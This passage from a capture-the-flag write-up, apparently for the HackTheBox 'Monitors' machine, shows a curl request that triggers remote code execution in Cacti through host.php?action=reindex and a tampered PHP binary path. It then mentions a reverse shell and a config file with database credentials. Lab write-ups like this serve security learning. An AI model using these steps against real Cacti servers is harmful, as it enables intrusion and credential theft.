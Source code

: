 Then call `host.php?action=reindex` which get the `shell_exec` called with the `path_php_binary`.
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/host.php?action=reindex'
```

![](screenshots/cacti-rce.png)

reverse shell with exploit script.

![](screenshots/web-shell.png)

# Privesc

## Socat Portforwarding

Found cacti config file `/usr/share/cacti/cacti/include/config.php`, which contains database creds `cacti:cactipass`
